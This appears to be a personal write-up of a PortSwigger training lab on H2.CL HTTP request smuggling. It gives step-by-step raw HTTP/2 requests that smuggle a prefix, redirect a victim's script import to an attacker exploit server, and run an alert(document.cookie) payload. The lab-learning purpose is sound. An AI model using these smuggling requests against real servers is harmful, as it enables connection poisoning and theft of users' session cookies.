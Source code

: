 # H2.CL request smuggling

I just spent 30 minutes wasting my time clicking a send button every 10 seconds without resolving the lab. Checked and double checked my solution. And [it is not just me](https://forum.portswigger.net/thread/help-with-h2-cl-request-smuggling-lab-f4f850ee). Not going to waste more of my time.

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling) is vulnerable to request smuggling because the front-end server downgrades `HTTP/2` requests even if they have an ambiguous length. 



## Reproduction and proof of concept

1. From the Repeater menu, enable the **Allow HTTP/2 ALPN override** option and disable the **Update Content-Length** option.
2. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an `HTTP/2` request by including a `Content-Length: 0` header as follows. Expand the Inspector's Request Attributes section and change the protocol to `HTTP/2` before sending the request.

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

SMUGGLED
```

3. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
4. Using Burp Repeater, notice that if you send a request for `GET /resources`, you are redirected to `https://lab-id.web-security-academy.net/resources/`.
5. Create the following request to smuggle the start of a request for `/resources`, along with an arbitrary Host header:

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=1
```

6. Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
7. Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)`, then store the exploit.
8. In Burp Repeater, edit your malicious request so that the Host header points to your exploit server:

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Length: 5

x=1
```
    
9. Send the request a few times and confirm that you receive a redirect to the exploit server.
10. Resend the request and wait for 10 seconds or so.
11. Go to the exploit server and check the access log. If you see a `GET /resources/` request from the victim, this indicates that your request smuggling attack was successful. Otherwise, check that there are no issues with your attack request and try again.
12. Once you have confirmed that you can cause the victim to be redirected to the exploit server, repeat the attack until the lab solves. This may take several attempts because you need to time your attack so that it poisons the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, although their browser will load your malicious JavaScript, it won't execute it.

## Exploitability

An attacker will need to perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds. This lab requires Pro.

